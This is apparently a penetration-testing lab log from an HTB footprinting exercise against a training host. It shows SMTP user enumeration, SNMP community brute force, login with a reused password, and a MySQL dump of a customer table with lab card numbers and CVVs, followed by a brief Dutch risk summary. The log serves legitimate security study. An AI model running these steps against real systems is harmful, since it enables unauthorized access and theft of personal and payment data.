|_imap-capabilities: IMAP4rev1 LITERAL+ have more IDLE AUTH=PLAINA0001 SASL-IR ID Pre-login listed LOGIN-REFERRALS capabilities post-login OK ENABLE
| ssl-cert: Subject: commonName=dev.inlanefreight.htb/organizationName=InlaneFreight Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-11-08T23:10:05
|_Not valid after:  2295-08-23T23:10:05
|_ssl-date: TLS randomness does not represent time
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL PIPELINING USER TOP SASL(PLAIN) CAPA RESP-CODES AUTH-RESP-CODE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dev.inlanefreight.htb/organizationName=InlaneFreight Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-11-08T23:10:05
|_Not valid after:  2295-08-23T23:10:05
3306/tcp open  mysql    MySQL 8.0.27-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.27-0ubuntu0.20.04.1
|   Thread ID: 9
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, Support41Auth, FoundRows, IgnoreSpaceBeforeParenthesis, LongColumnFlag, LongPassword, SupportsTransactions, SwitchToSSLAfterHandshake, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, Speaks41ProtocolOld, ODBCClient, SupportsCompression, ConnectWithDatabase, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Zh\x13Wj\x19a\x1D\x16\x0E     x?\x1D\x08\x16yD&~
|_  Auth Plugin Name: caching_sha2_password
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.98%I=7%D=1/23%Time=697353A2%P=x86_64-pc-linux-gnu%r(Hell
SF:o,36,"220\x20InFreight\x20ESMTP\x20v2\.11\r\n501\x20Syntax:\x20EHLO\x20
SF:hostname\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   74.37 ms 10.10.14.1
2   67.92 ms 10.129.4.76

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.34 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ nc -nv 10.129.4.76 25
(UNKNOWN) [10.129.4.76] 25 (smtp) open
220 InFreight ESMTP v2.11
VRFY root
252 2.0.0 root
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY cry0l1t3
550 5.1.1 <cry0l1t3>: Recipient address rejected: User unknown in local recipient table
find ~ -name "*footprint*" 2>/dev/null
502 5.5.2 Error: command not recognized
VRFY robin
252 2.0.0 robin
VRFY marlin
550 5.1.1 <marlin>: Recipient address rejected: User unknown in local recipient table
421 4.4.2 mail1 Error: timeout exceeded
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -k 'imaps://10.129.4.76' --user robin:robin
* LIST (\Noselect \HasChildren) "." DEV
* LIST (\Noselect \HasChildren) "." DEV.DEPARTMENT
* LIST (\HasNoChildren) "." DEV.DEPARTMENT.INT
* LIST (\HasNoChildren) "." INBOX
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -k 'imaps://10.129.4.76/DEV.DEPARTMENT.INT;MAILINDEX=1' --user robin:robin
Subject: Flag
To: Robin <robin@inlanefreight.htb>
From: CTO <devadmin@inlanefreight.htb>
Date: Wed, 03 Nov 2021 16:13:27 +0200

HTB{983uzn8jmfgpd8jmof8c34n7zio}
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -k 'imaps://10.129.4.76/INBOX;MAILINDEX=1' --user robin:robin
curl: (78) Remote file not found
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -k 'imaps://10.129.4.76/INBOX;MAILINDEX=2' --user robin:robin
curl: (78) Remote file not found
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -k 'imaps://10.129.4.76/INBOX;MAILINDEX=3' --user robin:robin
curl: (78) Remote file not found
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl -v 'imap://10.129.4.76'
*   Trying 10.129.4.76:143...
* Established connection to 10.129.4.76 (10.129.4.76 port 143) from 10.10.14.154 port 56696 
< * OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS LOGINDISABLED] HTB{roncfbw7iszerd7shni7jr2343zhrj}
> A001 CAPABILITY
< * CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS LOGINDISABLED
< A001 OK Pre-login capabilities listed, post-login capabilities have more.
> A002 LIST "" *
< A002 BAD Error in IMAP command received by server.
* shutting down connection #0
curl: (21) Quote command returned error
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.4.76
Scanning 1 hosts, 3219 communities
10.129.4.76 [public] Linux NIX02 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
10.129.4.76 [public] Linux NIX02 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin -e "SELECT VERSION();"
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -u robin -h 10.129.4.76 -probin
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ 
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin --skip-ssl -e "SELECT VERSION();"
+-------------------------+
| VERSION()               |
+-------------------------+
| 8.0.27-0ubuntu0.20.04.1 |
+-------------------------+
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ SHOW DATABASES;
SHOW: command not found
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin --skip-ssl -e "SHOW DATABASES;"
+--------------------+
| Database           |
+--------------------+
| customers          |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin --skip-ssl -e "USE inlanefreight; SHOW TABLES;"
ERROR 1049 (42000) at line 1: Unknown database 'inlanefreight'
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin --skip-ssl -e "USE customers; SHOW TABLES;"
+---------------------+
| Tables_in_customers |
+---------------------+
| myTable             |
+---------------------+
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.4.76 -u robin -probin --skip-ssl -e "USE customers; SELECT * FROM myTable;"
+----+---------------------+------------------------------------------+--------------------+-------------+-------------------------------+-----------------------------------+---------------------+------+
| id | name                | email                                    | country            | postalZip   | city                          | address                           | pan                 | cvv  |
+----+---------------------+------------------------------------------+--------------------+-------------+-------------------------------+-----------------------------------+---------------------+------+
|  1 | Emery Reyes         | diam.eu@icloud.htb                       | Spain              | 26-579      | Quảng Ngãi                    | 675-4432 Nunc Av.                 | 519358 9482346334   | 144  |
|  2 | Kristen Trujillo    | tellus.id@google.htb                     | Costa R.htb        | 376420      | Chiclayo                      | 101-8154 Ac Rd.                   | 546871 777532 7590  | 125  |
|  3 | Fletcher Jimenez    | lobortis@outlook.htb                     | Germany            | 3515        | Timaru                        | 9562 Dui, St.                     | 559 47883 93145 224 | 550  |
|  4 | Boris Sharp         | donec@protonmail.htb                     | Pakistan           | 1317        | Jönköping                     | 728-7809 Cras Road                | 4716447833847468    | 536  |
|  5 | Ruth Carson         | suspendisse.aliquet@yahoo.htb            | Pakistan           | 14945       | Oviedo                        | 324-8221 Ut Road                  | 5164782453566544    | 449  |
|  6 | Caryn Porter        | neque@aol.htb                            | New Zealand        | 3798        | Vichy                         | Ap #770-5801 Donec Rd.            | 4916 475 64 6748    | 590  |
|  7 | G.htbe Stein        | eget@google.htb                          | Spain              | 80125       | Jeonju                        | 305-2770 Lectus. Rd.              | 485 51263 38542 847 | 402  |
|  8 | Emery Watson        | non@icloud.htb                           | Austria            | 23940       | Secunderabad                  | Ap #542-2284 Mauris, Street       | 4716 5544 1838 4955 | 411  |
|  9 | Silas Holder        | metus@hotmail.htb                        | Netherlands        | 63-851      | San Cristóbal de la Laguna    | Ap #604-7295 Duis St.             | 5186 1252 1481 7760 | 863  |
| 10 | Patrick Walls       | aliquet@yahoo.htb                        | Indonesia          | 776718      | Weelde                        | 118-5893 Rhoncus. Ave             | 513 51634 82351 610 | 430  |
| 11 | Barclay Knight      | ut.nec@yahoo.htb                         | Poland             | FX6 7KT     | Sankt Wendel                  | 977-1992 Lacus. Avenue            | 4532532734638447    | 592  |
| 12 | Benjamin Church     | bibendum@yahoo.htb                       | Italy              | 2209        | Dunedin                       | Ap #744-2093 Et Rd.               | 4532684336623       | 887  |
| 13 | Kaitlin Lane        | vulputate.ullamcorper@yahoo.htb          | Colombia           | 21718       | Karnal                        | P.O. Box 257, 6002 Nisi Road      | 526 26236 38237 281 | 206  |
| 14 | Xena Robles         | sed.pharetra.felis@yahoo.htb             | France             | 45767       | Gansu                         | P.O. Box 528, 1077 Hendrerit St.  | 4916377837825       | 609  |
| 15 | France.htb Bowen    | at.egestas.a@aol.htb                     | Brazil             | 346211      | Calbuco                       | 4127 Donec Avenue                 | 4539267757536227    | 950  |
| 16 | Dacey Moore         | donec.est@google.htb                     | Colombia           | 58978-64484 | Wałbrzych                     | 509-5117 Odio Rd.                 | 535718 6638623286   | 385  |
| 17 | Amity Norton        | libero@outlook.htb                       | Mexico             | 727010      | Ulyanovsk                     | 135-2273 Donec St.                | 5584 5235 2526 7360 | 682  |
| 18 | Lee Kline           | nullam.nisl@protonmail.htb               | India              | 323603      | Tianjin                       | 7496 Sed St.                      | 4485 4586 6858 1865 | 699  |
| 19 | Nehru Best          | porttitor@aol.htb                        | South Korea        | 86248-126   | Nottingham                    | Ap #863-5830 Sit Av.              | 546729 525363 3228  | 237  |
| 20 | Isaiah Shields      | consectetuer.adipiscing.elit@outlook.htb | Russian Federation | 6656        | Landenne                      | 664-4572 Ornare St.               | 526357 6725656236   | 689  |
| 21 | Wing Hunt           | nullam.ut.nisi@protonmail.htb            | Mexico             | 7572        | Barranquilla                  | Ap #102-7529 Fusce Av.            | 518537 6364865833   | 636  |
| 22 | Elijah Be.htbt      | porttitor.eros@protonmail.htb            | Belgium            | 182672      | Mérida                        | 625-4778 Tellus. St.              | 4716 1868 1582 4380 | 486  |
| 23 | Whoopi Arnold       | at.sem.molestie@icloud.htb               | Peru               | 58939-421   | Gumi                          | 2523 Duis Av.                     | 431295 6816415539   | 904  |
| 24 | Sandra Malone       | arcu.sed@google.htb                      | Sweden             | 10313       | Yekaterinburg                 | 587-5713 Duis St.                 | 535259 775468 3794  | 634  |
| 25 | Petra Castaneda     | nam.porttitor@outlook.htb                | Austria            | 927788      | Faridabad                     | 609-3290 Dapibus Ave              | 4929 3555 4568 4421 | 992  |
| 26 | Marvin Welch        | amet.ornare.lectus@outlook.htb           | Turkey             | 373446      | Agu.htbliente (San Francisco] | P.O. Box 540, 3664 Vestibulum St. | 4485221576310       | 739  |
| 27 | Yardley Sargent     | egestas@google.htb                       | Nigeria            | 37-476      | Newtonmore                    | 187-4374 Pede Av.                 | 453995 985347 4218  | 152  |
| 28 | Richard Gomez       | iaculis.nec@hotmail.htb                  | Pakistan           | 8742        | Bendigo                       | 9610 Pede, Avenue                 | 453972 3652232650   | 818  |
| 29 | Jamal Hartman       | feugiat.lorem.ipsum@aol.htb              | Belgium            | 3532 NJ     | Uddevalla                     | Ap #818-7127 Feugiat Street       | 536 24517 72645 963 | 404  |
| 30 | Ira Jimenez         | augue.eu@hotmail.htb                     | Nigeria            | 57676       | Galway                        | 765-5415 Vitae Ave                | 5421 6832 2533 5763 | 134  |
| 31 | Iris Patterson      | facilisi.sed.neque@aol.htb               | Costa R.htb        | 37337       | Rennes                        | 501-5659 Eu, Avenue               | 521 82671 22625 356 | 342  |
| 32 | Dana Mayer          | penatibus.et@icloud.htb                  | Canada             | 541542      | Sousa                         | Ap #921-8076 Posuere, St.         | 4024007157848398    | 526  |
| 33 | Octavia Cantu       | neque@outlook.htb                        | Ireland            | 80589-89583 | Belfast                       | 285-6930 Nec Street               | 514873 244492 4196  | 463  |
| 34 | Gage Howard         | eleifend.nunc.risus@protonmail.htb       | Mexico             | 76-627      | Guápiles                      | 644-4786 Nisl Av.                 | 4532 7755 4955 4255 | 694  |
| 35 | Christine Davenport | neque.morbi.quis@hotmail.htb             | Costa R.htb        | 44-821      | Linares                       | 387-2148 Tristique Road           | 452837 956842 7760  | 919  |
| 36 | Olga Shepherd       | posuere@hotmail.htb                      | Belgium            | A5L 8W8     | Guápiles                      | 1514 Accumsan Ave                 | 5133863972378260    | 731  |
| 37 | Stone Langley       | risus.donec@outlook.htb                  | Australia          | 8470        | Gaziantep                     | 989-4653 Lectus Rd.               | 4556734294789       | 324  |
| 38 | Dora Decker         | felis.nulla.tempor@icloud.htb            | Russian Federation | 97-428      | Itanagar                      | Ap #240-2201 Aliquam Road         | 4024 007 14 7143    | 577  |
| 39 | Galvin Cameron      | mauris@yahoo.htb                         | Peru               | 47795-113   | Weyburn                       | 107-9775 Bibendum. Av.            | 448591 194284 3360  | 282  |
| 40 | Rylee Zamora        | mauris.a.nunc@yahoo.htb                  | Austria            | 21347       | Luik                          | Ap #992-3534 In Rd.               | 492 96771 72883 632 | 249  |
| 41 | Yvette Love         | diam.proin@protonmail.htb                | Poland             | 867445      | Cork                          | 447-6584 Eu Avenue                | 4688 594 12 5157    | 423  |
| 42 | Imani Kinney        | aliquam.ornare@outlook.htb               | Vietnam            | 4789        | Haripur                       | 812-7425 Et Rd.                   | 547566 4142882785   | 275  |
| 43 | Louis Bird          | tristique@protonmail.htb                 | Chile              | 342352      | Huasco                        | 203-9462 Erat Ave                 | 4795 272 25 8752    | 681  |
| 44 | Philip Bentley      | vitae.erat@google.htb                    | Ireland            | 82745       | Hong Kong                     | 754-3216 Mattis Street            | 559975 3538532574   | 523  |
| 45 | Kevin Simmons       | ultrices@aol.htb                         | Belgium            | 60433       | Watson Lake                   | P.O. Box 672, 7175 Tellus. St.    | 555564 5225122846   | 804  |
| 46 | Colorado Stevenson  | aliquam.adipiscing.lacus@protonmail.htb  | Brazil             | 366140      | Sint-Jans-Molenbeek           | 517-3815 Aenean Rd.               | 4539 691 72 7413    | 822  |
| 47 | Raya Patton         | semper.et.lacinia@yahoo.htb              | Chile              | 10917       | Abeokuta                      | 522-2194 Nisi Avenue              | 455 63994 24212 284 | 492  |
| 48 | Mufutau Johnston    | ipsum@google.htb                         | China              | 9472 FW     | Chandigarh                    | 564-120 Lorem Rd.                 | 535388 1779662416   | 288  |
| 49 | Leonard Jacobson    | aliquet.vel.vulputate@aol.htb            | Mexico             | 758028      | Camiña                        | P.O. Box 458, 481 Cubilia St.     | 4539647385476625    | 383  |
| 50 | Nora Best           | sed.consequat.auctor@yahoo.htb           | United States      | 51817       | Sangju                        | 937-810 Feugiat Rd.               | 491 63582 84493 652 | 910  |
| 51 | Carter Long         | morbi.sit@icloud.htb                     | Germany            | 15184       | Rangiora                      | 696-2843 Ultrices Road            | 5482 3583 6651 4254 | 127  |
| 52 | Christopher Montoya | bibendum.ullamcorper@protonmail.htb      | United Kingdom     | D6J 3JQ     | Ningxia                       | P.O. Box 998, 4282 Erat, Road     | 4532 243 86 7456    | 740  |
| 53 | Marah Du.htbn       | dictum.sapien@google.htb                 | Belgium            | 13732       | Mastung                       | Ap #821-9828 Lobortis St.         | 5278611274422475    | 354  |
| 54 | Shay Marquez        | nullam.feugiat.placerat@yahoo.htb        | Colombia           | 943199      | Delft                         | 7683 Lorem Rd.                    | 5388634554786176    | 226  |
| 55 | Brandon Mayo        | gravida.aliquam@aol.htb                  | South Korea        | 3442 VL     | Słupsk                        | Ap #320-2381 Senectus Av.         | 542823 7772627362   | 242  |
| 56 | Lucius Herman       | class.aptent@google.htb                  | Belgium            | 978016      | Heilongjiang                  | 8554 Amet St.                     | 546 17855 39776 227 | 420  |
| 57 | Justine Atkinson    | lorem.donec@protonmail.htb               | Netherlands        | 5376        | Algarrobo                     | 117-5490 Purus. Street            | 549616 968589 3830  | 147  |
| 58 | Erich Hicks         | sem.vitae@protonmail.htb                 | Poland             | LB2 5BQ     | Silvassa                      | P.O. Box 654, 4350 Cras Road      | 453976 1133267143   | 246  |
| 59 | Gay Morse           | felis.orci@aol.htb                       | Nigeria            | I8X 0R1     | Dover                         | P.O. Box 597, 2068 Dolor. Road    | 455676 5238367748   | 969  |
| 60 | Jane Daugherty      | a.tortor.nunc@outlook.htb                | South Korea        | 3313        | Soissons                      | 3243 Cursus St.                   | 402400 719918 4513  | 277  |
| 61 | Branden Grimes      | sapien.gravida.non@outlook.htb           | Spain              | 27574-086   | Jauche                        | 2177 Ornare, St.                  | 5169455394956471    | 948  |
| 62 | Hannah Gallagher    | a.sollicitudin@hotmail.htb               | Russian Federation | 30023       | IJlst                         | 1326 Fusce St.                    | 528235 5241422382   | 481  |
| 63 | Victor Livingston   | urna.justo@outlook.htb                   | Indonesia          | 65174       | Curitiba                      | P.O. Box 495, 7831 Nec, Rd.       | 524164 789461 8658  | 812  |
| 64 | Cain Nguyen         | vivamus.nisi@icloud.htb                  | United States      | 4815 XP     | Anamur                        | 238-1803 Nunc Rd.                 | 402 40071 66324 746 | 663  |
| 65 | Wylie Edwards       | et.eros.proin@icloud.htb                 | Ireland            | 313661      | La Roche-sur-Yon              | 504-7645 Nulla St.                | 453 21864 39169 578 | 503  |
| 66 | Lucius Dejesus      | orci.donec@outlook.htb                   | Belgium            | 4024        | Dublin                        | 802-8273 Luctus St.               | 453274 672582 4499  | 346  |
| 67 | Perry Irwin         | eu.tellus.eu@protonmail.htb              | Turkey             | 2214 VZ     | Çermik                        | Ap #650-2563 Ante, Avenue         | 448562 7364679732   | 128  |
| 68 | Rooney Carpenter    | semper@aol.htb                           | Spain              | 423241      | Salem                         | P.O. Box 528, 9665 Mauris Street  | 526433 755731 5378  | 372  |
| 69 | Willa M.htbrty      | vehicula.aliquet@icloud.htb              | New Zealand        | 20784-17169 | Aparecida de Goiânia          | 2743 Sit Av.                      | 513128 684681 3258  | 474  |
| 70 | Sydney Howell       | ipsum@aol.htb                            | India              | 248233      | Badajoz                       | 748-1092 Eleifend Rd.             | 554 53448 96271 438 | 545  |
| 71 | Evangeline Clay     | eget.mollis@yahoo.htb                    | South Korea        | UI1 3ZW     | Novgorod                      | 869-8279 Suscipit Road            | 402400 718176 9388  | 298  |
| 72 | Drake Ashley        | vitae@yahoo.htb                          | France             | 858797      | Smolensk                      | Ap #511-3737 Semper. Avenue       | 448545 6695644268   | 742  |
| 73 | Yolanda English     | quisque@yahoo.htb                        | Mexico             | 86716       | Tehuacán                      | Ap #702-5601 Cras Avenue          | 4716 8524 8686 4373 | 143  |
| 74 | India Good          | urna.nunc.quis@protonmail.htb            | Netherlands        | 38450-22965 | Bama                          | Ap #858-7292 Porttitor St.        | 453255 425477 5888  | 520  |
| 75 | Brendan Humphrey    | pellentesque.habitant@yahoo.htb          | India              | 866588      | Altach                        | Ap #138-1109 A St.                | 492997 473978 8812  | 741  |
| 76 | Kevyn Yates         | orci.luctus@yahoo.htb                    | Australia          | 524249      | Khyber Agency                 | P.O. Box 841, 3533 Lorem Rd.      | 471 65346 26667 946 | 978  |
| 77 | Brenden Ferrell     | dolor@yahoo.htb                          | Mexico             | 5575        | Banjarbaru                    | 589 Dolor Av.                     | 491689 737379 9388  | 822  |
| 78 | Medge Tanner        | sed.et@icloud.htb                        | Ireland            | 8461        | Nicoya                        | Ap #583-362 Lorem, St.            | 471 68228 18655 245 | 582  |
| 79 | Petra Maxwell       | vulputate.nisi@hotmail.htb               | Pakistan           | 6271        | Kraków                        | P.O. Box 768, 7395 Magna. Avenue  | 4485146832731       | 293  |
| 80 | Nayda White         | ante.lectus@protonmail.htb               | United Kingdom     | 871677      | Ludvika                       | Ap #394-8994 Blandit Ave          | 485255 2336622492   | 945  |
| 81 | Leroy Moore         | nunc@outlook.htb                         | India              | 110602      | Abaetetuba                    | 477-6650 Turpis Av.               | 4916 324 58 9271    | 311  |
| 82 | Fleur M.htbll       | libero@aol.htb                           | New Zealand        | 4444        | Ulsan                         | Ap #256-7097 Dapibus St.          | 5345 9936 4195 4680 | 744  |
| 83 | Hanna Finch         | cursus.integer@outlook.htb               | United States      | 48968       | Arequipa                      | Ap #758-5939 Gravida Avenue       | 4024 0071 9785 2228 | 306  |
| 84 | Myles Koch          | ligula@protonmail.htb                    | Russian Federation | 81636       | Hereford                      | 356-6096 Pede. Ave                | 534315 715275 8847  | 831  |
| 85 | Hashim Waters       | aenean.euismod.mauris@aol.htb            | India              | 96531-615   | Pondicherry                   | P.O. Box 562, 6205 Et Road        | 402400 7126848131   | 936  |
| 86 | Quinn Salinas       | mi.lacinia.mattis@google.htb             | United States      | A7L 2H9     | Hudson Bay                    | 6417 Eget Street                  | 5487 6745 5153 1985 | 431  |
| 87 | Karly Wright        | tempor.diam@icloud.htb                   | Belgium            | 05122       | Kielce                        | 871-224 Ut Street                 | 513239 182594 9922  | 196  |
| 88 | Otto Lang           | ultrices@google.htb                      | France             | 76733-267   | Belfast                       | 4708 Auctor Rd.                   | 5322224628183391    | 595  |
| 89 | Hannah Mullen       | donec.tempus.lorem@hotmail.htb           | Peru               | 52018       | Mount Gambier                 | Ap #918-5986 Egestas Avenue       | 526114 931428 6484  | 599  |
| 90 | Keefe Farmer        | eleifend.egestas.sed@outlook.htb         | Austria            | 314247      | Bhatinda                      | Ap #176-4321 Metus. Rd.           | 558717 273482 2453  | 976  |
| 91 | Rylee Walton        | lobortis.tellus.justo@yahoo.htb          | Brazil             | 161682      | Morelia                       | P.O. Box 340, 8204 Diam. Ave      | 5561 8537 7945 1635 | 143  |
| 92 | Quemby Owens        | cursus.et@google.htb                     | Peru               | 72447-13788 | Port Blair                    | Ap #923-4694 Pellentesque Avenue  | 545342 8473632383   | 341  |
| 93 | Barrett Becker      | ante@hotmail.htb                         | Spain              | 53568-22888 | Tierra Amarilla               | 785-8439 Tristique St.            | 471 67388 99195 366 | 463  |
| 94 | Maia Becker         | aenean@icloud.htb                        | Germany            | 34254       | Kano                          | Ap #156-3599 Congue. St.          | 4539394362289883    | 478  |
| 95 | Lisandra Mcknight   | eget@aol.htb                             | Colombia           | 67856       | Väners.htb                    | Ap #341-9804 Donec St.            | 547182 782221 4629  | 212  |
| 96 | Sade Baker          | ipsum.suspendisse@protonmail.htb         | Costa R.htb        | 87786       | Lloydminster                  | 236 Nec St.                       | 455665 3477829976   | 257  |
| 97 | August Hubbard      | metus.vitae.velit@yahoo.htb              | Brazil             | 32544-18823 | Mataram                       | Ap #990-9767 Varius Road          | 555667 2237542554   | 909  |
| 98 | Kalia England       | in.scelerisque.scelerisque@outlook.htb   | Costa R.htb        | 513554      | Saint-Malo                    | 483-4213 Lacus, Rd.               | 5282574593582235    | 939  |
| 99 | Tobias Whitney      | nulla.cras.eu@outlook.htb                | Spain              | 3511        | Municipal District            | Ap #382-4871 Vel, Avenue          | 492 95773 27461 179 | 919  |
+----+---------------------+------------------------------------------+--------------------+-------------+-------------------------------+-----------------------------------+---------------------+------+
                                                                                                                   
└─$ which smtp-user-enum
/usr/bin/smtp-user-enum
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists/ | grep -i foot
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ls ~/Downloads/ | grep -i foot
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ find ~ -name "*footprint*" 2>/dev/null
^C
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ nc -nv 10.129.4.76 110
(UNKNOWN) [10.129.4.76] 110 (pop3) open
+OK InFreight POP3 v9.188
-ERR Disconnected for inactivity.
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ snmpwalk -v2c -c public 10.129.4.76
iso.3.6.1.2.1.1.1.0 = STRING: "Linux NIX02 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (462337) 1:17:03.37
iso.3.6.1.2.1.1.4.0 = STRING: "devadmin <devadmin@inlanefreight.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "NIX02"
iso.3.6.1.2.1.1.6.0 = STRING: "InFreight SNMP v0.91"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (61) 0:00:00.61
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing IP and ICMP implementations"

                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ snmpwalk -v2c -c public 10.129.4.76 | grep "HTB{"
iso.3.6.1.2.1.25.1.7.1.3.1.1.4.70.76.65.71 = STRING: "HTB{5nMp_fl4g_uidhfljnsldiuhbfsdij44738b2u763g}"
iso.3.6.1.2.1.25.1.7.1.3.1.2.4.70.76.65.71 = STRING: "HTB{5nMp_fl4g_uidhfljnsldiuhbfsdij44738b2u763g}"
iso.3.6.1.2.1.25.1.7.1.4.1.2.4.70.76.65.71.1 = STRING: "HTB{5nMp_fl4g_uidhfljnsldiuhbfsdij44738b2u763g}"

Naam	E-mailadres	Land
Otto Lang	ultrices@google.htb	France
🚩 3. Conclusie & Risico's

    Informatiebeveiliging: De SNMP-service lekt systeem- en contactinformatie aan ongeautoriseerde gebruikers.

    Wachtwoord hergebruik: De gebruiker robin hergebruikt hetzelfde wachtwoord voor verschillende diensten, wat toegang gaf tot de volledige klantendatabase.

    Privacy: Gevoelige klantgegevens (PII) inclusief e-mailadressen en betaalinformatie zijn onversleuteld opgeslagen in myTable.

🔗 Gerelateerde Notities

    [[Network Enumeration]]

    [[MySQL Exploitation Guide]]

    [[HTB Academy - Footprinting Module]]


┌──(kali㉿kali)-[~]
└─$ smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.129.4.76
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 175
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Fri Jan 23 06:01:31 2026 #########
######## Scan completed at Fri Jan 23 06:04:26 2026 #########
0 results.

175 queries in 175 seconds (1.0 queries / sec)
  ┌──(kali㉿kali)-[~]
└─$ nmap 10.129.4.132
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 07:47 -0500
Nmap scan report for 10.129.4.132
Host is up (0.061s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 1.74 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -A -p 135,139,445,1433,3389,5985 10.129.4.132                        
[sudo] password for kali: 
